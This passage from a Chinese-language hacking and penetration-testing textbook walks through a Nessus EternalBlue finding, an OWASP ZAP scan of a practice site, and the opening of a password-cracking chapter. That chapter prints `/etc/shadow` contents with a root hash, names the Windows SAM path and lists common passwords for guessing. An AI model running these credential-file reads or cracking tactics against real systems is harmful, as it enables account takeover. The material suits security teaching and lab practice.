

这现在会打开一个包含关键漏洞列表的屏幕。请注意，中间的漏洞被标记为 MS17-010。这是微软对“永恒之蓝”（EternalBlue）漏洞的命名，该漏洞由美国国家安全局（NSA）开发，于 2017 年 4 月由影子经纪人（ShadowBrokers）黑客组织泄露，并被 WannaCry 和 Petya 勒索软件等恶意软件利用，在全球范围内攻击系统。正如上面 nmap 扫描所警告的那样，我们的系统极易受到此攻击。

我们可以更深入地挖掘，点击 MS17-010 漏洞，获取更详细的详细信息。


# 新扫描 / 插件 #97833

< 返回漏洞组

- 漏洞：21 个

CRITICAL | MS17-010: Microsoft Windows SMB 服务器安全更新 (401389) (ET...

**描述**

远程 Windows 主机受到以下漏洞的影响：

- 由于对某些请求处理不当，Microsoft Server Message Block 1.0 (`SMBv1`) 中存在多个远程代码执行漏洞。未经身份验证的远程攻击者可以通过特别构造的包利用这些漏洞执行任意代码。(`CVE-2017-0143`, `CVE-2017-0144`, `CVE-2017-0145`, `CVE-2017-0146`, `CVE-2017-0148`)

- 由于对某些请求处理不当，Microsoft Server Message Block 1.0 (`SMBv1`) 中存在信息泄露漏洞。未经身份验证的远程攻击者可以通过特别构造的包利用此漏洞泄露敏感信息。(`CVE-2017-0147`)

ETERNALBLUE、ETERNALCHAMPION、ETERNALROMANCE 和 ETERNALSYNERGY 是 Equation Group 在 2017/04/14 由影子经纪人（Shadow Brokers）组织公开的多个漏洞和利用工具中的一部分。WannaCry / WannaCrypt 是利用 ETERNALBLUE 漏洞的勒索软件程序，而 EternalSyS 是利用 Equation Group 七个漏洞的蠕虫。Petya 是一种勒索软件程序，首先利用 `CVE-2017-0199`（Microsoft Office 中的一个漏洞），然后通过 ETERNALBLUE 进行传播。

**解决方案**

微软已发布了一系列适用于 Windows Vista、2008、9、2008 R2、2012、8.1、RT 8.1、2012 R2、10 和 2016 的补丁。微软还为不再支持的 Windows 操作系统发布了紧急补丁，包括 Windows XP、2003 和 8。

对于不受支持的 Windows 操作系统，例如 Windows XP，微软建议用户停止使用 `SMBv1`。`SMBv1` 缺乏后续 SMB 版本中包含的安全功能。可以按照供应商提供的说明禁用 `SMBv1`

| 插件详情 |
| :--- |
| 严重性：关键 |
| ID：97833 |
| 版本：1.22 |
| 类型：远程 |
| 类别：Windows |
| 发布时间：2017年3月20日 |
| 修改时间：2019年2月26日 |
| 风险信息 |
| :--- |
| 风险因素：关键 |
| CVSS v3.0 基础评分：8.1 |
| CVSS v3.0 向量：CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H |
| CVSS v3.0 时间向量：CVSS:3.0/E:H/RL:O/RC:C |
| CVSS v3.0 时间评分：7.7 |
| CVSS 基础评分：10.0 |
| CVSS 时间评分：8.7 |
| CVSS 向量：CVSS2#AV:N/AC:L/Au:N/C:C/I:C/A:H |




Nessus 现在会询问您是否想要创建执行摘要或自定义报告。我选择了执行摘要，然后在右上角选择了 PDF 格式。现在 Nessus 将开始生成一份外观专业的 PDF 格式“执行摘要”，总结您的漏洞扫描结果，可直接提交给您的 CTO 或 CISO。



# 使用 OWASP ZAP 进行网站漏洞扫描

Nessus 是一个查找系统和应用程序漏洞的绝佳工具，但如果我们想要测试网站和 Web 应用程序的漏洞，我们可能希望使用专门为该目的设计的工具。在第 6 章中，我们使用 `whatswweb` 工具对网站进行指纹识别，它提供了关于该网站的重要信息，例如：

1. 提供该网站的所属国家；
2. CMS（内容管理系统）；
3. Web 服务器；以及
4. 构建网站所使用的技术。

在此阶段，我们想了解更多信息。我们想知道网站可能存在哪些我们可以利用的潜在漏洞。有许多优秀的商业工具可用于此目的，但幸运的是，OWASP（开放式 Web 应用程序安全项目）拥有其中最好的工具之一，而且它是免费的！

从 Kali GUI，你可以转到应用程序，Web 应用程序分析，然后点击 `OWASP ZAP`，或者，如果你更喜欢命令行，只需在命令行中输入 `OWASP ZAP`。


- 收藏夹
  - 01 - 信息收集
  - 02 - 漏洞分析
  - 03 - Web 应用程序分析
  - 04 - 数据库评估
  - 05 - 密码攻击
  - 06 - 无线攻击
  - 07 - 逆向工程
  - 08 - 利用工具
  - 09 - 嗅探与欺骗
  - 10 - 后渗透
  - 11 - 取证
  - 12 - 报告工具
  - 13 - 社会工程学工具
  - 14 - 系统服务
  - 常用应用程序
- burpsuite
- commix
- htrack
- `owasp-zap`
- paros
- skipfish
- sqlmap
- webscarab
- wpscan

```
root@kali-2019:~# owasp-zap
Found Java version 11.0.2
Available memory: 5926 MB
Setting jvm heap size: -Xmx1481m
0 [main] INFO org.zaproxy.zap.GuiBootstrap - OWASP ZAP 2.7.0 started 29/07/2019, 09:47:00 with home /root/.ZAP/
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.zaproxy.zap.GuiBootstrap (file:/usr/share/zaproxy/zap-2.7.0.jar) to field sun.awt.X11.XToolkit.awtAppClassName
WARNING: Please consider reporting this to the maintainers of org.zaproxy.zap.GuiBootstrap
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
1350 [AWT-EventQueue-0] INFO org.parosproxy.paros.network.SSLConnector - Reading supported SSL/TLS protocols...
1364 [AWT-EventQueue-0] INFO org.parosproxy.paros.network.SSLConnector - Using a SSL4Engine...
2428 [AWT-EventQueue-0] INFO org.parosproxy.paros.network.SSLConnector - Done reading supported SSL/TLS protocols: [SSLv2Hello, SSLv3, TLSv1, TLSv1.1, TLSv1.2, TLSv1.3]
2469 [AWT-EventQueue-0] INFO org.parosproxy.paros.extension.option.OptionsParamCertificate - Unsafe SSL renegotiation disabled.
```

第一次使用 `OWASP ZAP` 时，您将必须阅读并同意最终用户许可协议（EULA）。完成后，`OWASP ZAP` 将向您显示以下屏幕。此屏幕询问



你是否想要“保留 ZAP 会话”。本质上，它在询问你是否想要保存该会话。

最好通过名称和位置“保留”会话，即第二个单选按钮选项。这将把结果保存到您选择位置的文件中。我将把我的命名为“第一次 Web 漏洞扫描”（我很有创意，不是吗），并将其保存到 `/root` 文件夹。

接下来，您将看到一个标题为“管理插件”的屏幕，如下所示。

## 管理插件

已安装 | 市场

ZAP Core 2.7.0 : ZAP 是最新版本

插件

筛选器：

| 名称 | 描述 | 更新 |
| :--- | :--- | :--- |
| Active scanner rules | 发布质量的主动扫描器规则 | 更新 |
| AdvFuzzer | 用于手动测试的高级模糊测试器 | |
| Ajax Spider | 允许您对大量使用 Java... 的网站进行爬行 | 更新 |
| Context Alert Filters | 允许您自动更改警报风险级别。 | 更新 |
| Core Language Files | 核心语言文件的翻译 | 更新 |
| Diff | 显示两个请求之间差异的对话框... | |
| Directory List v1.0 | 要与“强制浏览...”一起使用的目录名称列表 | |
| Forced Browse | 使用代码fro...对文件和目录进行强制浏览 | |
| Getting Started with ZAP ... | ZAP 入门指南的简短说明。 | 更新 |
| Help - English | ZAP 帮助文件的英文（主）版本。 | 更新 |
| Import files containing URLs | 添加导入 URL 文件的选项。文件必须... | |
| Invoke Applications | 通过传递上下文相关信...调用外部应用程序 | 更新 |
| jxBrowser (core) | 基于 Chromium 的嵌入式浏览器，您必须... | 更新 |
| jxBrowser (Linux 64) | 基于 Chromium 的嵌入式浏览器。Linux 64 s... | 更新 |

卸载所选 | 更新所选 | 更新全部 | 关闭

在右下角点击 `Update All`（更新所有）。

一旦完成所有附加组件的下载和更新，系统会弹出窗口提示该任务已完成。点击 `OK`（确定）并关闭“Manage Add-ons”（管理附加组件）窗口。此时，`OWASP ZAP` 漏洞评估工具已就绪，随时可以“攻击”你的目标网站！










在本例中，我们将使用 OWASP ZAP 来测试一个专门设计用于被攻击的在线网站 `webscantest.com` 的漏洞。在提示“URL to attack”（要攻击的 URL）的位置输入该网站的 URL，然后点击下方的 `Attack` 按钮。

此时它将开始分析该网站。首先，它会爬取网站，然后开始主动扫描以查找漏洞。这可能需要一些时间。对于非常大的网站，这可能耗时数小时，因此请坐下来放松一下。

在扫描过程中，你会注意到屏幕底部开始出现警报。这些是 OWASP ZAP 正在收集和分类的漏洞。如下所示，发现了六种类型的警报：

1. Application Error Disclosure（应用程序错误信息泄露）
2. X-Frame-Options Header Not Set（未设置 X-Frame-Options 头）
3. Cookie No HttpOnly Flag（Cookie 未设置 HttpOnly 标志）
4. Cross Domain Javascript Source File Inclusion（跨域 JavaScript 源文件包含）
5. Web Browser XSS Protection Not Enabled（Web 浏览器 XSS 保护未启用）
6. X-Content-Type-Options Header Missing（缺少 X-Content-Type-Options 头）

本书篇幅有限，无法详细讨论这些漏洞类型，但你可以访问 [www.hackers-arise.com/web-app-hacking_t](www.hackers-arise.com/web-app-hacking_t) 来了解更多。





当双击第一个警报“Application Error Disclosure”（应用程序错误信息泄露）时，会打开一个包含更多详情的窗口，如下所示。


你可以逐个查看这些警报，以确定 OWASP ZAP 发现了哪种类型的漏洞，以及关于如何利用这些漏洞的一些信息。

## 摘要

漏洞扫描器是渗透测试人员的好工具，但对于需要保持隐蔽的攻击者来说，它们可能太吵（产生过多日志/流量）。它们并不完美，但可以发现许多可能被利用的潜在漏洞，从而为攻击者节省大量时间。某些漏洞扫描器可能会产生大量误报，这对新手渗透测试人员/黑客来说具有欺骗性。

## 练习

1. 针对你的 Windows 7 系统使用 `nmap` `EternalBlue` 漏洞扫描器。
2. 下载并安装 Nessus Essentials 漏洞扫描器，并将其应用于你的 Windows 7 系统或网络中的其他任何系统。完成后，生成一份 PDF 格式的 `Executive Summary` 高管摘要。
3. 针对 `www.webscantest.com` 或其他任何网站运行 OWASP ZAP 网站漏洞扫描器，并记录结果。请注意，漏洞扫描本身并不违法，但可能会引起怀疑。


# 8 破解密码

用户名和密码是源自 20 世纪 70 年代大型机架构的概念。它们并非为 2016 年而设计。

Alex Stamos

密码仍然是我们的数字世界中最常见的身份验证形式。我们使用密码登录电脑、域、银行账户、Facebook 账户，甚至可能包括手机。近年来，安全管理员已付出巨大努力，让人们使用更长、更复杂的密码。这使得密码破解更加耗时，但它仍然是黑客进入账户或网络的最佳入口点之一。

```text
root@kali:~# cd /etc
root@kali:/etc# cat shadow
root:$6$NSaFWsOpSQdGLXUOJ32FE3bDIAU05KkeLD9ErvmmX1xnhB/HmlL0rqSL1bePkr7RxkDY4i5dI6g/Mv1rqqTZhq05q:18066:0:99999:7:::
dakom:*$17926:0:99999:7:::
bin:*$17926:0:99999:7:::
sys:*$17926:0:99999:7:::
sync:*$17926:0:99999:7:::
games:*$17926:0:99999:7:::
man:*$17926:0:99999:7:::
lp:*$17926:0:99999:7:::
mail:*$17926:0:99999:7:::
news:*$17926:0:99999:7:::
uucp:*$17926:0:99999:7:::
proxy:*$17926:0:99999:7:::
www-data:*$17926:0:99999:7:::
backup:*$17926:0:99999:7:::
list:*$17926:0:99999:7:::
irc:*$17926:0:99999:7:::
gnats:*$17926:0:99999:7:::
nobody:*$17926:0:99999:7:::
apt:*$17926:0:99999:7:::
systemd-journal:*$17926:0:99999:7:::
```

在本章中，我们将讨论破解密码的方法以及一些相关工具。没有一种单一的工具或技术能适用于所有密码，因此在尝试破解密码时，战略性地思考非常重要。

我们可以将密码破解分为几类，但最重要的区别可能是离线与在线。在几乎每个现代系统和应用程序中，密码都以哈希值的形式存储（参见附录 A《黑客入门密码学》）。这是一种单向加密。算法获取明文密码，为其创建唯一的不可解码的密文（哈希值）并将其存储。当你再次登录时，系统获取你输入的密码，再次进行加密，并检查该加密后的密码是否与其存储的密码匹配。破解密码最有效的方法无疑是：(1) 定位并获取这些哈希文件，(2) 将其离线处理，以及 (3) 投入资源进行破解。

要查看这些哈希值的样子，请以 root 身份登录你的 Kali 系统，进入 `/etc` 目录，并使用 `cat` 命令显示该文件 `shadow`。

```
kali > cd /etc
kali > cat shadow
```

此文件包含你系统上的所有账户及其密码哈希值。由于我的 root 账户只有一个密码，因此只显示一个哈希值。密码哈希值位于用户名“root:”之后，下一个冒号“:”之前。我们需要破解的正是这组代表密码的不可解码字符。

在 Windows 系统中，本地用户的密码哈希值存储在：`C:\Windows\System32\config\SAM`


Windows (C:) › Windows › System32 › config

| 名称 | 修改日期 | 类型 | 大小 |
|---|---|---|---|
| bblmigrate | 2018/8/14 10:48 PM | 文件夹 | |
| Journal | 2018/4/11 5:38 PM | 文件夹 | |
| RegBack | 2018/4/11 5:38 PM | 文件夹 | |
| systemprofile | 2018/10/19 10:11 ... | | |
| TxR | 2018/11/13 9:14 PM | 文件夹 | |
| BBI | 2019/6/11 5:48 PM | 文件 | 768 KB |
| BCD-Template | 2018/8/14 10:48 PM | 文件 | 28 KB |
| COMPONENTS | 2019/6/16 8:37 PM | 文件 | 48,896 KB |
| DEFAULT | 2019/6/11 5:48 PM | 文件 | 1,280 KB |
| DRIVERS | 2019/6/13 7:56 PM | 文件 | 6,324 KB |
| ELAM | 2018/10/19 10:15 ... | 文件 | 32 KB |
| SAM | 2019/6/11 5:48 PM | 文件 | 56 KB |
| SECURITY | 2019/6/11 5:48 PM | 文件 | 48 KB |
| SOFTWARE | 2019/6/11 5:49 PM | 文件 | 145,408 KB |


| SYSTEM | 2019/6/11 5:48 PM | 文件 | 23,296 KB |

| userdiff | 2018/8/14 10:42 PM | 文件 | 8 KB |


在现代化系统中，密码破解过程是：(1) 生成一个潜在密码；(2) 使用系统生成哈希值时所采用的相同算法对其进行加密；然后 (3) 将该哈希值与从系统中恢复的哈希值进行比较。如果匹配，你就破解了该密码！如果不匹配，尝试下一个潜在密码，直到匹配成功或列表结束。

**破解密码**

尽管许多黑客资源讨论了各种密码破解方法，但我更倾向于认为只有两种方法。第一种方法是使用潜在密码列表。这些可能包括：

1. 字典；
2. 带有特殊字符和数字的字典；
3. 常用密码列表；
4. 由黑客开发的自定义词库。

在上述任何一种情况下，黑客都在试图自动化密码猜测（我必须承认，在许多情况下，我仅通过手动猜测用户密码就成功了）。密码破解工具从词库中获取密码候选项，使用适当的加密算法（哈希）对其进行加密，然后比较哈希值。如果匹配，那么输入到哈希算法中的列表中的明文密码就是`正确的密码`。

另一种方法是对密码进行`暴力破解`。暴力攻击会尝试所有可能性，直到找到正确的密码。换句话说，如果密码是八个字符，暴力攻击将尝试所有字母、特殊字符和数字的组合，直到到达正确的密码（这将意味着每个位置有七十五个字符，共八个位置，即七十五的八次方，约为 1 千万亿种可能性）。这可能需要大量的时间和资源，但所有密码都可能受到暴力攻击。除非使用 GPU 集群、僵尸网络或超级计算机等异常资源，否则这不是一个明智的方法（短密码除外）。

对于黑客来说，最有效的方法是获取系统内部或在传输过程中

系统（参见 Wi-Fi 破解中的四次握手）并使它们离线，然后投入资源对它们进行破解。

在这里，我们将首先研究离线密码破解的工具和技术，然后研究在线密码破解的工具和技术。

## 关于词库（Wordlists）的说明

在线和离线密码破解都需要一个尝试的单词列表。

这些词库并不一定包含所有单词。其中一些可能是常被用作密码的字符组合，例如 qwerty、asdfghjk 或 123456。选择合适的词库可能是你在尝试破解密码时所做出的最重要的决定。

Kali 内置了大量词库。你可以通过输入 `locate wordlists` 来查找它们：

```
root@kali:~# locate wordlists
/usr/share/wordlists
/usr/share/applications/kali-wordlists.desktop
/usr/share/d/irb/wordlists
/usr/share/d/irb/wordlists/big.txt
/usr/share/d/irb/wordlists/catala.txt
/usr/share/d/irb/wordlists/common.txt
/usr/share/d/irb/wordlists/euskera.txt
/usr/share/d/irb/wordlists/extensions_common.txt
/usr/share/d/irb/wordlists/indexes.txt
/usr/share/d/irb/wordlists/mutations_common.txt
/usr/share/d/irb/wordlists/others
/usr/share/d/irb/wordlists/small.txt
/usr/share/d/irb/wordlists/spanish.txt
/usr/share/d/irb/wordlists/stress
/usr/share/d/irb/wordlists/vulns
/usr/share/d/irb/wordlists/others/best1050.txt
/usr/share/d/irb/wordlists/others/best110.txt
/usr/share/d/irb/wordlists/others/best15.txt
/usr/share/d/irb/wordlists/others/names.txt
/usr/share/d/irb/wordlists/stress/alpha_num_case.txt
/usr/share/d/irb/wordlists/stress/alpha_num_case_extra.txt
/usr/share/d/irb/wordlists/stress/char.txt
/usr/share/d/irb/wordlists/stress/double_uri_hex.txt
```

这些词库通常与某个应用程序关联，并包含该应用程序特有的单词。例如，Web 目录破解工具 `dirb` 的词库包含常用于网站目录的常用单词。通常，有效密码破解的关键在于选择合适的词库。

此外，网上还有大量词库可供查找，例如在 [www.skullsecurity.org](www.skullsecurity.org) 和 www.hackers-arise.com/password-lists 等网站。

最后，你可以考虑创建自己的词库，该词库应针对具体任务进行定制。

## 密码破解策略

在尝试破解密码时，除非你打算使用暴力破解（在这种情况下，你的策略就是耐心），否则在开始密码破解之前拥有一套策略会对你大有裨益。我总是从一个包含最常用密码的小列表开始。请记住，虽然这个星球上有 75 亿人，其中 15 亿人使用英语（尽管并非都是母语使用者），但人们的思维和行动方式往往相似。懒惰的人（或者那些不重视信息安全的人）会使用常见的单词或常见的键盘组合（即 qwerty、123456），而其他人则会再进一步，创建稍微复杂一些的密码，包括他们的名字、缩写、生日、纪念日、喜欢的电视节目、子女和配偶等。

根据暗网上的电子邮件泄露数据，我们可以构建出最常用密码的列表。2018 年，这些密码是：

1. 123456
2. password
3. 123456789
4. 12345678
5. 12345
6. 111111
7. 1234567
8. sunshine
9. qwerty
10. iloveyou
11. princess
12. admin
13. welcome
14. 666666
15. abc123
16. football
17. 123123
18. monkey
19. 654321
20. !@#$%^&*
21. charlie
22. aa123456
23. donald
24. password1
25. qwerty123

是的，信不信由你，最常用的密码是“123456”和“password”！

这些密码占所有用户账户的 10% 左右！而“123456”被近 3% 的账户使用！虽然我的分析不够科学，但我估计前 5,000 个密码被用于近三分之一的账户。拥有这些信息，如果尝试使用包含数百万密码的词库，从而花费数天、数周甚至数月的工作，那将是非常愚蠢的。相反，应有策略地首先尝试前 5,000 个左右最常用的密码，只有当它们失败时，才尝试使用更大、更复杂的词库。如果你拥有例如一个 1,000 个用户的域的所有密码哈希，仅通过尝试前 5,000 个密码，你很可能会找到其中 300 多个。记住，你只需要一个密码就可以攻陷整个网络。

## 使用 John the Ripper 破解密码

